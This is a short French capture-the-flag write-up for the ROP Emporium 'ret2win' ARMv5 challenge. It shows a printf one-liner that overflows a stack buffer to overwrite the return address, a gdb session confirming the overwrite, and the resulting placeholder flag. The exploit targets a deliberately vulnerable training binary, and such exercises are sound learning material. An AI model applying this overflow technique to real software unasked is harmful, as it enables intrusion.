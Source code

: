 ### En bash


    ret2win$ printf "%36s\xec\05\01" | qemu-arm -g 1337 ret2win_armv5
    ret2win by ROP Emporium
    ARMv5

    For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
    What could possibly go wrong?
    You there, may I have your input please? And don't worry about null bytes, we're using read()!

    > Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}

### En bash et suivi gdb

On va d'une part lancer notre executable avec qemu et une écoute gdb sur le port 1337.
    ret2win$ printf "%36s\xec\05\01" | qemu-arm -g 1337 ret2win_armv5
    ret2win by ROP Emporium
    ARMv5

    For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
    What could possibly go wrong?
    You there, may I have your input please? And don't worry about null bytes, we're using read()!

D'autre part, sur un autre terminal, nous attacher au proces en remote sur ce port.
On pose un point d'arrêt sur l'appel read (pwnme+80).


    ret2win$ gdb-multiarch ret2win_armv5
    ...
    gef➤  target remote localhost:1337
    gef➤  b *pwnme+80
    Breakpoint 1 at 0x105c0
    gef➤  c

Avant le read

    gef➤  x/12x $sp
    0x40800188:	0x00000000	0x00000000	0x00000000	0x00000000
    0x40800198:	0x00000000	0x00000000	0x00000000	0x00000000
    0x408001a8:	0x408001b4	0x0001054c	0x00000000	0x3fe70790
                fp            lr
ni

    gef➤  x/12x $sp
    0x40800188:	0x20202020	0x20202020	0x20202020	0x20202020
    0x40800198:	0x20202020	0x20202020	0x20202020	0x20202020
    0x408001a8:	0x20202020	0x000105ec	0x00000000	0x3fe70790
                            ret2win

    continue

Le premier écran reçoit

    > Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!
